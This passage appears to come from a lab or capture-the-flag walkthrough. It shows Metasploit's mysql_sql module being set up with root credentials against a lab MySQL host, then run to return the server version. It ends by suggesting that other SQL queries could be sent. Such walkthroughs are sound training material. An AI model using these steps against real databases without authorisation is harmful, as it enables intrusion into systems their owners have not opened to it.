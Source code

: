 ```commandline
msf6 > search mysql_sql

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/admin/mysql/mysql_sql                   normal  No     MySQL SQL Generic Query


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/mysql/mysql_sql

msf6 > use 0
msf6 auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as

msf6 auxiliary(admin/mysql/mysql_sql) >
```

We need to set a few variables. But look to the variable SQL which is set to `select version()`.

Set all required variables:

```commandline
set PASSWORD password
set RHOSTS 10.10.188.228
set USERNAME root
```

Run the exploit with the command `run` or `exploit` and this is the result of it:

```commandline
[*] Running module against 10.10.188.228

[*] 10.10.188.228:3306 - Sending statement: 'select version()'...
[*] 10.10.188.228:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```

We see the version is `5.7.29-0ubuntu0.18.04.1`, nothing new as we got this information already with our `nmap` scan.q But remember that we can adjust the SQL variable and add some other SQL queries.

For example:
